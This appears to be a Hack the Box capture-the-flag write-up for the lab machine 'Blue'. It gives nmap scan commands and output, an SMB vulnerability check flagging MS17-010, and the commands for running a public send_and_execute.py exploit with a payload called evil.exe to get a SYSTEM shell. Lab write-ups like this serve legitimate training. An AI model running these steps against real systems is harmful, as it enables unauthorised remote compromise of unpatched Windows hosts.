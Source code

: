 ```yaml
---
title: Hack the Box - Blue
date: 2022-08-15 19:30 -500 
categories: [Hack the Box]
tags: [oscp,windows]
---
```


# Blue Overview

## Machine Details:

|IP|Hostname|Operating System|
|---|---|---|
|10.10.10.40|Blue|Windows|

## Path to Exploitation

We leverage the host's vulnerability to MS17-010 to fully compromise the host.

# Enumeration 

## Full Port Scan

```bash
nmap 10.10.10.40 -p- -oA Blue/nmap/full-port --open -Pn -vv
```

Results:

|PORT|SERVICE|
|----|-------|
|135|msrpc|
|139|netbios-ssn|
|445|microsoft-ds|
|49152|unknown|
|49153|unknown|
|49154|unknown|
|49155|unknown|
|49156|unknown|
|49157|unknown|

## Service Scan

```bash
nmap 10.10.10.40 -p 135,139,445,49152,49153,49154,49155,49156,49157 -sC -sV -oA Blue/nmap/service-scan -Pn
```

Results:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|135|msrpc|Windows RPC|
|139|netbios-ssn|Windows netbios-ssn|
|445|microsoft-ds|7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)|
|49152|msrpc|Windows RPC|
|49153|msrpc|Windows RPC|
|49154|msrpc|Windows RPC|
|49155|msrpc|Windows RPC|
|49156|msrpc|Windows RPC|
|49157|msrpc|Windows RPC|

# SMB

## SMB Nmap Scan

```shell
$ nmap -p 139,445 --script=smb-vuln* 10.10.10.40 -Pn -oA nmap/smb-scan
```
```cmd
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
```

<mark>We see the host is vulnerable to MS17-010</mark>

# Exploitation and Privilege Escalation

We can use the [send_and_execute.py](https://github.com/k4u5h41/MS17-010_CVE-2017-0143) script to attack the machine.

Use the checker.py script to identify the named pipes available
```shell
$ python checker.py 10.10.10.40
```
![SMB Checker](/assets/HackTheBox/Blue/exploit-check.png "Checking Pipes")

We can try supplying the guest username to the script and seeing if we get different results.
![With Guest User](/assets/HackTheBox/Blue/modify-checker.png "With Guest User")
```shell
$ python checker.py 10.10.10.40
```
![Found Pipes](/assets/HackTheBox/Blue/found-pipes.png "Found Valid Pipes")

We can now try executing the send_and_execute.py script using the guest user.

![Modify the Exploit](/assets/HackTheBox/Blue/modify-exploit.png "Modify the Exploit")

```shell
$ python send_and_execute.py 10.10.10.40 evil.exe 445
```
![Launch Exploit](/assets/HackTheBox/Blue/exploit.png "Launch the Exploit")

We now have a shell on the machine as the SYSTEM account
![Shell on Host](/assets/HackTheBox/Blue/shell.png "SYSTEM Shell")


